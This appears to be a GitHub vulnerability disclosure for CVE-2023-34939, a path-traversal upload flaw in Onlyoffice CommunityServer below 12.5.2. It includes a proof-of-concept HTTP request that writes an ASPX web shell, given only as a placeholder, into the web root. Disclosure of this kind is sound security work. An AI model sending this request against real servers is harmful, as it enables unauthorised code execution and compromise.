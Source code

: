 # CVE-2023-34939
RCE via Path Traversal vulnerability in **Onlyoffice CommunityServer < 12.5.2**

# Description
Onlyoffice Community Server is a collaborative platform for managing documents, projects and customer relations. Recently, a security vulnerability was discovered in this software version that could allow remote code execution (RCE) attacks.

The vulnerability is located in the UploadProgress.ashx component, which is responsible for handling file uploads. **Unauthorized** attackers can exploit this weakness by sending specially crafted requests to the server, triggering the execution of arbitrary code on the affected system.

This RCE vulnerability poses a serious risk to the security and integrity of organizations using Onlyoffice Community Server. As a result, it is highly recommended to update to the latest version of the software (v12.5.2 as for now) as soon as possible to prevent potential attacks.

**The only condition** is that there should be a thread created in the forum module.

# Proof of Concept
This PoC is for educational and research purposes only. It should not be used for malicious purposes or to cause harm to any system or network. The purpose of this PoC is to raise awareness of the vulnerability and to encourage responsible disclosure and patching.

```
POST /UploadProgress.ashx?submit=ASC.Web.UserControls.Forum.ForumAttachmentUploadHanler,ASC.Web.Community&SettingsID=11111111-1111-1111-1111-111111111111&ThreadID=3&UserID=11111111-1111-1111-1111-111111111110 HTTP/1.1
Host: REDACTED
Content-Length: 121
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary123

------WebKitFormBoundary123
Content-Disposition: form-data; name="files[]"; filename="../../../../../../../../../../../../../WebStudio/2023-34939.aspx"
Content-Type: application/asp

ASPX SHELL
------WebKitFormBoundary123--
```
Simply change the ThreadID and the file will be uploaded to the root web directory.

# Author
Kirill Firsov
[Twitter @k_firsov](https://twitter.com/k_firsov)

# Reference
Fixed in [Onlyoffice CommunityServer v12.5.2]("https://github.com/ONLYOFFICE/CommunityServer/blob/master/CHANGELOG.md#version-1252")
